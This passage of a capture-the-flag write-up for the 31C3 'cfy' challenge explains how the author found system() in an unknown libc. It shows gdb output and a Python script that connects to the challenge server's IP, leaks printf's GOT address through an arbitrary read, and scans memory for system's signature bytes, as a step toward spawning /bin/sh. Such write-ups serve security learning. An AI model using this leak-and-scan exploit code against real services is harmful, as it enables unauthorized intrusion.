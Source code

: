 Excellent. Now what pointer should we store in `buf`? I couldn't make a ROP chain, for I had no control over the stack. The obvious thing to do was to return to `system()` with `/bin/sh` as argument. But where was `system()` located?

I had no idea what `libc` version was running. I did have an arbitrary read primitive though. I had downloaded `libc-2.19` and from the addresses of `printf` and `puts` (both available in the GOT) I deduced that this *wasn't* the correct version. However, I decided to scan the remote binary's libc for signature bytes of `system()`. I assumed it started with these bytes:

```
bas@tritonal:~/tmp/31c3/cfy$ gdb ./libc-2.19.so 
GNU gdb (GDB) 7.4.1-debian
...snip...
gdb-peda$ x/8b system
0x46530 <system>:   0x48    0x85    0xff    0x74    0xb 0xe9    0x26    0xfb
```

So I wrote a small scanner in python. This scanner will dump bytes from libc, searching for `ff85` in the output. 

```python
#!/usr/bin/python

import struct, time, re

def p(x):
    return struct.pack("L", x)

payload = ""
payload += "2\n"
payload += p(0x601020)  # printf
payload += "\n"

import socket
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('188.40.18.73', 3313))

print s.recv(1025)
s.send(payload)
time.sleep(1.5)
data = s.recv(1000)

PRINTF = -1
print data
m = re.search(r'hex: (.*)', data)
if m:
    PRINTF = m.group(1)

OFFSET=63580    # guesstimated from real libc
for i in range(5000):
    payload = ""
    payload += "2\n"
    payload += p(int(PRINTF, 16)-OFFSET-i)
    payload += "\n"

    s.send(payload)

    data = s.recv(200)
    print data
    print i

    if 'ff85' in data: # part of test rdi, rdi
            print "[!] found possible offset for system(): printf-%d" % (int(PRINTF,16)-(int(PRINTF, 16)-OFFSET-i))
            print "[!] system @ %s" % hex(int(PRINTF, 16)-OFFSET-i)
            raw_input()
```